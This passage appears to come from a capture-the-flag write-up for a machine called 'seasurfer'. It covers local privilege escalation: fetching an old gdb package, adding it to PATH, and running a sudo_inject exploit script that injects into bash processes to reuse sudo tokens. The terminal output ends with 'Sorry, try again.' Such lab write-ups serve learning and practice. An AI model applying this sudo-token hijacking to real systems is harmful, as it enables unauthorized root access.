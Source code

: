 Take this dep package [http://fi.archive.ubuntu.com/ubuntu/pool/main/g/gdb/gdb\_9.2-0ubuntu1\~20.04.1\_amd64.deb](http://fi.archive.ubuntu.com/ubuntu/pool/main/g/gdb/gdb\_9.2-0ubuntu1\~20.04.1\_amd64.deb) because I tried gdb\_12 and it doesn't work properly for privesc.

<pre><code><strong>wget http://fi.archive.ubuntu.com/ubuntu/pool/main/g/gdb/gdb_9.2-0ubuntu1~20.04.1_amd64.deb
</strong><strong>ar x gdb_9.2....dep
</strong>tar xvf data.tar.xz</code></pre>

Now, upload gdb binary to machine and export PATH for it.

```
kyle@seasurfer:~$ ./gdb --version
Python Exception <class 'ModuleNotFoundError'> No module named 'gdb': 
./gdb: warning: 
Could not load the Python gdb module from `/usr/share/gdb/python'.
Limited Python support is available from the _gdb module.
Suggest passing --data-directory=/path/to/gdb/data-directory.
GNU gdb (Ubuntu 9.2-0ubuntu1~20.04.1) 9.2
Copyright (C) 2020 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.
```

```
kyle@seasurfer:~$ export PATH=$(pwd):$PATH
kyle@seasurfer:~$ echo $PATH
/home/kyle:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
kyle@seasurfer:~$ cd sudo_inject/
kyle@seasurfer:~/sudo_inject$ ls -al
total 1800
drwxrwxr-x 4 kyle kyle   4096 Aug 15 20:17 .
drwxr-x--- 9 kyle kyle   4096 Aug 15 20:22 ..
drwxrwxr-x 8 kyle kyle   4096 Aug 15 20:17 .git
-rw-rw-r-- 1 kyle kyle   5270 Aug 15 20:17 README.md
-rwxrwxr-x 1 kyle kyle 978128 Aug 15 20:17 activate_sudo_token
-rw-rw-r-- 1 kyle kyle    648 Aug 15 20:17 exploit.sh
-rw-rw-r-- 1 kyle kyle    493 Aug 15 20:17 exploit_v2.sh
-rw-rw-r-- 1 kyle kyle    562 Aug 15 20:17 exploit_v3.sh
drwxrwxr-x 3 kyle kyle   4096 Aug 15 20:17 extra_tools
-rw-rw-r-- 1 kyle kyle 827220 Aug 15 20:17 slides_breizh_2019.pdf
kyle@seasurfer:~/sudo_inject$ chmod +x exploit.sh 
kyle@seasurfer:~/sudo_inject$ ./exploit.sh 
Current process : 82940
Injecting process 1124 -> bash
Injecting process 51612 -> bash
Sorry, try again.
kyle@seasurfer:~/sudo_inject$
```



